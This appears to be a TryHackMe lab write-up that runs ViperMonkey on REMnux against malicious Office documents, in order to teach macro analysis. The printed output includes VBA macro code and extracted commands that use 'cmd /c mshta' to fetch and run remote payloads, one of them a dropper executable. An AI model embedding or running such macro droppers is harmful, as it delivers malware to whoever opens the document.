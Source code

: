 ```
| Action               | Parameters                | Description    |
+----------------------+---------------------------+----------------+
| Found Heuristic      | DefoLegit                 |                |
| Entry Point          |                           |                |
| Execute Command      | cmd /c mshta http://10.0. | Shell function |
|                      | 0.10:4444/MyDropper.exe   |                |
| Found Heuristic      | DefoLegit                 |                |
| Entry Point          |                           |                |
| Execute Command      | cmd /c mshta http://10.0. | Shell function |
|                      | 0.10:4444/MyDropper.exe   |                |
+----------------------+---------------------------+----------------+

INFO     Found 7 possible IOCs. Stripping duplicates...
VBA Builtins Called: ['Shell']

Finished analyzing DefinitelyALegitInvoice.doc .

```


What is the name of the Macro for "DefinitelyALegitInvoice.doc"
*DefoLegit*


```

remnux@thm-remnux:~/Tasks/4$ vmonkey Taxes2020.doc 
 _    ___                 __  ___            __             
| |  / (_)___  ___  _____/  |/  /___  ____  / /_____  __  __
| | / / / __ \/ _ \/ ___/ /|_/ / __ \/ __ \/ //_/ _ \/ / / /
| |/ / / /_/ /  __/ /  / /  / / /_/ / / / / ,< /  __/ /_/ / 
|___/_/ .___/\___/_/  /_/  /_/\____/_/ /_/_/|_|\___/\__, /  
     /_/                                           /____/   
vmonkey 0.08 - https://github.com/decalage2/ViperMonkey
THIS IS WORK IN PROGRESS - Check updates regularly!
Please report any issue at https://github.com/decalage2/ViperMonkey/issues

===============================================================================
FILE: Taxes2020.doc
INFO     Starting emulation...
INFO     Emulating an Office (VBA) file.
INFO     Reading document metadata...
Traceback (most recent call last):
  File "/opt/vipermonkey/src/vipermonkey/vipermonkey/export_all_excel_sheets.py", line 15, in <module>
    from unotools import Socket, connect
ModuleNotFoundError: No module named 'unotools'
ERROR    Running export_all_excel_sheets.py failed. Command '['python3', '/opt/vipermonkey/src/vipermonkey/vipermonkey/export_all_excel_sheets.py', '/tmp/tmp_excel_file_6874051711']' returned non-zero exit status 1        
ERROR    Reading in file as Excel with xlrd failed. Can't find workbook in OLE2 compound document                                                   
INFO     Saving dropped analysis artifacts in .//Taxes2020.doc_artifacts/
INFO     Parsing VB...
-------------------------------------------------------------------------------
VBA MACRO ThisDocument.cls 
in file:  - OLE stream: u'Macros/VBA/ThisDocument'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
-------------------------------------------------------------------------------
VBA CODE (with long lines collapsed):
Private Sub X544FE()
    Shell ("cmd /c mshta http://tryhackme.com/notac2cserver.sh")
End Sub
-------------------------------------------------------------------------------
PARSING VBA CODE:
```